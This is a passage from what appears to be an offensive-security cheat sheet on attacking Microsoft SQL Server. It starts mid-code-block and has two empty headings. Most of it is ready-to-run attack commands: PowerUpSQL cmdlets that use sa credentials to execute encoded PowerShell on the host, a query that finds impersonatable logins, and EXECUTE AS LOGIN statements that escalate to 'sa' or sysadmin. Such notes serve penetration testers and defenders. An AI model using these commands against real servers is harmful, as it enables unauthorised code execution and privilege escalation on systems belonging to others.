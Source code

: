     "utf-8")])'
    WITH RESULT SETS (([cmd_out] nvarchar(max)))
    ```
- PowerUpSQL:
    ```powershell
    Invoke-SQLOSCmdR -Username sa -Password pw -Instance instance -Command "powershell -e <base64encodedscript>" -Verbose
    Invoke-SQLOSCmdPython -Username sa -Password pw -Instance instance -Command "powershell -e <base64encodedscript>" -Verbose
    ```

### Registry Autoruns

### File Autoruns

## Privilege Escalation

### Find Impersonatable Accounts

- <https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation/>

```sql
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```
```powershell
Invoke-SQLAuditPrivImpersonateLogin -Username un -Password pw -Instance dbname -Verbose
```

### Execute As

- <https://docs.microsoft.com/en-us/sql/t-sql/statements/execute-as-transact-sql>

```sql
EXECUTE AS LOGIN = 'dbadmin'
```
```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')

EXECUTE AS LOGIN = 'dbadmin'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()

EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
```
